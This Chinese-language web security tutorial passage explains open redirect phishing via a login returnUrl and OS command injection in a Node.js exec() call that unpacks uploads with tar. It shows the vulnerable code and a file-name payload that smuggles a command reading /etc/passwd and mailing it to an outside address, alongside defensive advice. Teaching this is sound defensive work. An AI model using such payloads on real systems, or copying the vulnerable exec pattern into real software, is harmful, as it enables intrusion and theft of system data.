 ## 示例

假设有一个正规网站http://nerddinner.com/，还有一个恶意网站或钓鱼网站http://nerddiner.com/（注意：这里少了个n）。
一天，小白收到了别人发的链接：http://nerddinner.com/Account/LogOn?returnUrl=http://nerddiner.com。
1. 打开链接后进入了登录界面，小白输入了自己的帐号名密码进行登录。
2. 登录成功后重定向到了恶意网站。
3. 恶意网站是一个仿造正规网站的登录页面，并在上面提示用户名或密码错误。
4. 小白按照提示重新输入了帐号密码信息。
5. 恶意网站保存了客户的用户名密码，然后重定向会正规网站。
6. 小白继续平时正常的操作。

## 防范措施

防止开发重定向只需要判断重定向的链接是本地的链接或者是合法的链接即可。
1. 如果登录链接和站点其他页面都在同一个域名，在ASP.MVC中可以用Url.IsLocalUrl(string url)来判断。
2. 如果登录链接和站点其他页面不在同一个域名，如单点登录，则需要自己去实现判断的逻辑。

*******************************************************************************************************************

# OS命令注入——OS Command Injection

## 原理

OS 注入攻击是指程序提供了直接执行 Shell 命令的函数的场景，当攻击者不合理使用，且开发者对用户参数未考虑安全因素的话，就会执行恶意的命令调用，被攻击者利用。

## 示例

在 Node.js 中可以使用 exec() 执行命令。以基于 ThinkJS 开发的博客系统 Firekylin 为例，其中有一个用户上传压缩包导入数据的功能，为了方便直接使用了 tar 命令去解压文件，大致代码如下：

```js
const { exec } = require('child_process');

const extractPath = path.join(think.RUNTIME_PATH, 'importMarkdownFileToFirekylin');
module.exports = class extends think.Controller {
    async upload() {
        const { path: filePath } = this.file('import');
        exec(`rm -rf ${extractPath}; mkdir ${extractPath}; cd ${PATH}; tar zvxf "${filePath}"`);
    }
}
```

其中 filePath 是用户上传文件的包含文件名的临时上传路径。假设此时用户上传的文件名为 $(whoami).tar.gz，那么最后 exec() 就相当于执行了 tar zvxf "/xxx/runtime/$(whoami).tar.gz"。而 Bash 的话双引号中的 $() 包裹部分会被当做命令执行，最终达到了用户超乎程序设定直接执行 Shell 命令的可怕结果。类似的写法还有 `` 包裹。当然我这里写的是 whoami 命令显得效果还好，如果是 $(cat /etc/passwd | mail -s "host" i@imnerd.org).tar.gz 能直接获取到机器密码之类的就能体会出这个漏洞的可怕了吧。

## 防范措施

1. 参数化
2. 输入校验
